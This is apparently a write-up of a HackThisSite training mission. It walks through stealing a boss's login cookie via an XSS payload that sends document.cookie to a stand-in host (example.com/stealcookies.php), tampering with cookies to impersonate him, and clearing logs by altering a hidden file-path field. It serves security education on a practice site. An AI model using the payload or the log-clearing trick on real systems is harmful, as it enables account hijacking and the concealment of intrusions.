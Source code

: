 # Mission 9
https://www.hackthissite.org/playlevel/9/

- [Overview](#overview)
- [Solution](#solution)
  * [Details From the Site Layout](#details-from-the-site-layout)
  * [Paying Our Friend's Salary](#paying-our-friends-salary)
    + [Stealing Your Boss' Cookies](#stealing-your-boss-cookies)
  * [Clearing the Logs](#clearing-the-logs)
- [Key Concepts](#key-concepts)
- [Key Ideas](#key-ideas)

## Overview
The boss over at CrappySoft has stopped paying his employees, and your friend is
in need of money, fast. Help them get their salary paid.

Message: Hey man, I've heard you're good at hacking, and on the right side of
things. So I came looking for you. I really need help, you see, my boss has
stopped paying our salaries and I'm going to miss my rent! Please help me get my
money, you can reach the site at Crappy Soft. They have an online payment
system, but only he can use it. Maybe you can get into his account somehow, but
for now you can use mine:

Username: r-conner@crappysoft.com\
Password: ilovemywork

Thanks man, good luck.

## Solution
### Details From the Site Layout
Before focusing on paying the salary let's take stock of the site itself. Take a
look at the pages we can access without needing to log in. Contact leads to a
generic form to send a message to the company, nothing fancy there. But the
Mailing List and Demo pages drop an important clue. On the Mailing List page,
it's the form which has this line: `<input type="hidden" name="strFilename"
value="./files/mailinglist/addresses.txt">`. On the Demo page, the download link
has this line: `<a href="./files/downloads/CrappyDemo.exe.zip"><font
color="BLACK"><b>HERE!</b></font></a>`.

Try accessing https://www.hackthissite.org/playlevel/9/files/ and boom,
directory listing is on. Click through the folders and you'll notice a log file
at ./files/logs/logs.txt. It seems to record login data. Thinking back to our
steps in [Realistic Mission
8](https://github.com/jasonally/hack_this_site_missions/blob/master/realistic/mission_08.md),
we'll probably need to clear logs in this mission as well once we pay our
friend.

We've learned an important insight, but for now, let's focus on paying our
friend's salary.

### Paying Our Friend's Salary
Log into our friend's account from the CrappySoft homepage using the account
credentials he provided. Once we're logged in, you'll notice a cookie gets saved
to our browser with the following information:
* intID, currently equal to 2
* strPassword, which seems to be the MD5 hash of our friend's password
* strUsername, which is set to r-conner%40crappysoft.com (note the URL encoding
for the @ sign)

There's also now a link on the lefthand side of the page labeled Pay Salaries.
Click it right now and you'll get a message saying: You are not an
administrator.

I spent a while looking into [privilege
escalation](https://portswigger.net/web-security/access-control), my thinking
being that maybe there was some way to give our friend's account administrator
privileges and then be able to pay his salary. That approach didn't really pan
out, but it turns out I was on the right track.

#### Stealing Your Boss' Cookies
It turns out there's more than you might initially think to the site's Private
Message functionality. The functionality is actually vulnerable to a [Cross-Site
Scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) (XSS) attack,
meaning we can inject JavaScript into a page and execute it in another user's
browser. In this case, we can use XSS to steal the boss' login cookie.

Compose a message to m-crap (owner), add a subject, add the following message
body, and click Send:
`javascript:void(window.location='http://example.com/stealcookies.php?'+document.cookie)`

It's beyond the scope of this mission to actually execute an XSS attack, so
we've got to simulate it and think through it to the best of our ability. When
the boss opens your message, his browser will execute this code (because the web
application doesn't properly filter out rogue JavaScript) and it will redirect
his browser to http://example.com/stealcookies.php?[boss_login_cookie]. In this
simulation the idea would be that you control the site in question – which in
this case is example.com – and stealcookies.php is a script which would save
your boss' cookie for you to retrieve later. The script might just save the data
to a database, it might email it to you, or something along those lines.

Once you send the message you'll see some more text appear on the page saying
something like this:\
It's beyond the scope of this mission to check the XSS.
So, assume you got this cookie:\
strUsername=m-crap%40crappysoft.com;
strPassword=94a35a3b7befff5eb2a8415af04aa16c; intID=1;

Again, it's beyond the scope of this mission for us to actually execute a XSS
attack, so we just got the cookie information provided to us. We could have
probably guessed the boss would have intID=1, but we wouldn't have known his
password (either the plain text version or the hashed version). But now we've
got it all. Update your cookie to reflect the indID, strPassword, and
strUsername values we've now obtained and we're now effectively logged in as the
boss. Click the Pay Salaries link and click the Pay button next to your friend's
email address to pay him.

### Clearing the Logs
Once we've paid our friend we'll see a message telling us to clean the logs by
subscribing to them. This goes back to what we saw earlier, before logging in.
We need to clear the site logs to help cover our tracks.

Luckily, our initial investigation makes it much easier for us to figure out how
to accomplish these steps. If we go to the Mailing List page, there's this
message: (Note: This adds your email to the list, and at the same time, checks
the list for anything without the '@' character and deletes it.)

We identified previously that the logs file we're trying to clear is located at
./files/logs/logs.txt. So, change the value of the hidden input type to that
file path, click Subscribe, and you're done. This functionality will clear the
log file and we've completed the mission.

## Key Concepts
Cookie tampering\
Cookie stealing\
Cross-site scripting (XSS)

## Key Ideas
It shouldn't be so easy for someone to tamper with a cookie, and that was what
really allowed us to complete the mission. Modern practices call for things like
authentication cookies which the backend validates to make sure a user isn't
editing a cookie's values in their browser.

But this mission also gave us an example of XSS, which continues to be a major
web security issue. Any time someone can inject rogue JavaScript onto a page
which can then be executed in the browser of another user, that's a big problem.
There's no shortage of malicious things an attacker can do using an XSS bug, but
stealing cookies is a common one. That's why companies often allocate major
resources -- including paying cash rewards -- to people who identify and report
XSS vulnerabilities.